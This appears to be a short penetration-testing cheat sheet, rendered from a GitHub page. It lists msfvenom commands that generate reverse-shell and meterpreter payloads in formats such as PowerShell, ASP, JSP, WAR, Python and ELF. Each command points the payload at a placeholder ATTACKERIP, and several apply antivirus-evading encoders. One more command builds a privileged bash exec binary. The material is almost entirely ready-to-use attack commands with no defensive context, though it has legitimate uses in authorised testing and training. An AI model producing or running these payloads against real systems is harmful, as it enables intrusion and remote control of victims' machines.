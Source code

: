 **Powershell**

```bash
LH=ATTACKERIP LP="" ; msfvenom -p windows/meterpreter/reverse_tcp LHOST=${LH} LPORT=${LP} -f powershell -o payload.ps1
```

**PSH-CMD**

```bash
LH=ATTACKERIP LP="" ; msfvenom -p windows/shell_reverse_tcp LHOST=${LH} LPORT=${LP} -f psh-cmd -o payload.bat
```

**ASP**

```bash
LH=ATTACKERIP LP="" ; msfvenom -p windows/shell_reverse_tcp LHOST=${LH} LPORT=${LP} -f asp -e x86/shikata_ga_nai -i 5 -o payload.asp
```

**JSP**

```bash
LH=ATTACKERIP LP="" ; msfvenom -p java/jsp_shell_reverse_tcp LHOST=${LH} LPORT=${LP} -f raw -e x86/shikata_ga_nai -i 5 -o payload.jsp
```

**JS**

```bash
LH=ATTACKERIP LP="" ; msfvenom -p linux/x86/shell_reverse_tcp LHOST=${LH} LPORT=${LP} CMD=/bin/bash -f js_le -e generic/none -o payload.js
```

**WAR**

```bash
LH=ATTACKERIP LP="" ; msfvenom -p java/jsp_shell_reverse_tcp LHOST=${LH} LPORT=${LP} -f war -o payload.war
```

**Python**

```bash
LH=ATTACKERIP LP="" ; msfvenom -p linux/x86/shell_reverse_tcp LHOST=${LH} LPORT=${LP} -e x86/shikata_ga_nai -f py -v shellcode -b "\x00\x20" -o payload.py
```

**ELF**

```bash
LH=ATTACKERIP LP="" ; msfvenom -p linux/x86/shell_reverse_tcp LHOST=${LH} LPORT=${LP} -f elf -o payload.elf
```

```bash
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o payload.elf
```


##### Shells
